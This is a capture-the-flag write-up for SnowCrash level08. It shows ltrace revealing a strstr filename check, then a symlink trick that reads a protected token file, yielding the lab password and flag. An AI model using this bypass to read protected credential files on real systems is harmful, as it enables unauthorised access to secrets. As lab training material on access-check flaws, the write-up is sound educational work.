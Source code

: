 ## level08

Again a binary. It opens, reads and write a file. We have also a file named `token` that we don’t have the right to read. Obviously we try to read it with our file: denied.

But running `ltrace` on the binary we see that the check is made with `strstr` just checking if we asked to open a file that contains ‘token’ in the name. We can probably work around that…

```bash
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                                                             = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                                                         = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Would it work to use a symlink named differently pointing at our token?

```bash
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/bar
level08@SnowCrash:~$ ./level08 /tmp/bar
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

### Key Learnings
- Symlinks can be used to bypass checks